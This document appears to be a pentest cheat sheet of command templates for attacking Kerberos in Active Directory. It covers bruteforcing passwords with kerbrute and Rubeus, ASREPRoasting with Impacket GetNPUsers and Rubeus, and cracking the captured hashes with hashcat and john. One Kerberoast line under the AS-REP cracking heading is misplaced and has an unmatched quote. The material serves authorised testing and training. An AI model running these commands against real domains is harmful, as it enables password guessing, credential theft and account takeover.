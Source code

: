 # Kerberos cheatsheet

## Bruteforcing

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):
```shell
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:
```shell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>

```

## ASREPRoast

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:
```shell
#Powerview.ps1 and HashCat
Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash.txt"

hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

